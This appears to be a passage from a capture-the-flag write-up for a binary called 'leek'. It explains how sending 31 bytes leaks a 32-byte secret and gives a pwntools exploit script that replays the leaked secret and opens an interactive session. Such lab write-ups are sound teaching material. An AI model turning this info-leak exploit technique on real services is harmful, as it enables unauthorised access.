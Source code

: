 -   A chunk of 32 random bytes is created and we need to supply the matching bytes.
-   Do that 100 times, and we get the flag.
-   If we send 31 bytes, the output is leaked!

{% code overflow="wrap" %}
```bash
./leek
I dare you to leek my secret.
Your input (NO STACK BUFFER OVERFLOWS!!): aaaabaaacaaadaaaeaaafaaagaaahaaa
:skull::skull::skull: bro really said: aaaabaaacaaadaaaeaaafaaagaaahaaa
��`W;57r';I=׎�͇�t�. Ux+�<�
```
{% endcode %}

#### exploit.py

{% code overflow="wrap" %}
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './leek'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Send 31 bytes of random data
io.sendlineafter(b'):', cyclic(31))
io.recvline()

# Grab the secret
secret = io.recvline().strip()

io.sendafter(b'What\'s my secret?', secret)

io.sendlineafter(b'Say what you want:', b'B' * 24)

# Got Shell?
io.interactive()
```
{% endcode %}
